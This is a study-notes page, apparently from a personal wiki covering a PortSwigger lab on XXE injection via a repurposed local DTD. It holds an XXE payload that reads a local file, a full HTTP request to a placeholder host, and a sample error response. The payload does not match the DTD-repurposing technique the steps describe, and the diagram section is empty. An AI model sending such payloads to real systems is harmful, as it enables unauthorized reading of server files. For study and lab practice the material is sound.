

## Crafting the XXE Payload

### Step-by-Step Mechanics

1. **Identify the DTD File**: First, identify the location of the DTD file on the server. This can often be found by inspecting the XML input or by using directory traversal techniques.
2. **Define the Entity**: Next, define an entity in your XML input that references the DTD file and redefines an entity from it. For example:

```xml
<?xml version="1.0"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "file:///path/to/EtsyPassWD">
]>
<stockCheck>
  <productId>1</productId>
  <storeId>2</storeId>
  <product>&xxe;</product>
</stockCheck>
```

### Full HTTP Request and Response

Here is a complete example of the HTTP request and response:

```http
POST /checkstock HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml
Content-Length: 200

<?xml version="1.0"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "file:///path/to/EtsyPassWD">
]>
<stockCheck>
  <productId>1</productId>
  <storeId>2</storeId>
  <product>&xxe;</product>
</stockCheck>
```

```http
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=UTF-8
Content-Length: 1024

<!DOCTYPE html>
<html>
<head>
<title>Error</title>
</head>
<body>
<h1>An error occurred</h1>
<p>The following error was encountered: &lt;error&gt;Error reading file: /path/to/EtsyPassWD&lt;/error&gt;</p>
</body>
</html>
```

### Explanation of Headers

- **Content-Type**: Specifies the media type of the resource. In this case, `application/xml` indicates that the request body contains XML data.
- **Content-Length**: Indicates the size of the request body in bytes.
- **HTTP Status Code**: `500 Internal Server Error` indicates that the server encountered an unexpected condition that prevented it from fulfilling the request.

### Diagramming the Attack Chain



---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/10-Lab 9 Exploiting XXE to retrieve data by repurposing a local DTD/04-Common Pitfalls and Mistakes|Common Pitfalls and Mistakes]] | [[Web Security (PortSwigger)/08-XXE Injection/10-Lab 9 Exploiting XXE to retrieve data by repurposing a local DTD/00-Overview|Overview]] | [[06-Enumerating DTDs|Enumerating DTDs]]
